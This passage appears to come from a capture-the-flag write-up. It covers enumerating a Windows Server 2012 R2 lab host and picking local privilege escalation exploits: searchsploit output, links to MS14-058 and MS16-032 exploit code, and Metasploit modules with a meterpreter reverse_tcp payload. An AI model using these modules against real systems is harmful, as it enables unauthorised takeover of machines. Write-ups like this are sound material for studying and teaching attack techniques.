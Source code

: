 ```
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
From this, we know it's Microsoft Windows Server 2012 R2 Standard x64.

Let's do a quick Searchsploit and Google search.
```
hippoeug@kali:~$ searchsploit windows server 2012
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
...
Microsoft Windows 8.1/ Server 2012 - 'Win32k.sys' Local Privilege Escalation (MS14-058)                                             | windows/local/46945.cpp
...
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```
Googling "windows server 2012 r2 privilege escalation", we see an exploit for `MS16-032`.

Both [`MS14-058`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-058) and [`MS16-032`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) vulnerabilties have Metasploit exploits for them. 

For `MS14-058`:
```
msf5 > use exploit/windows/local/ms14_058_track_popup_menu
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
...
```
For `MS16-032`:
```
msf5 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```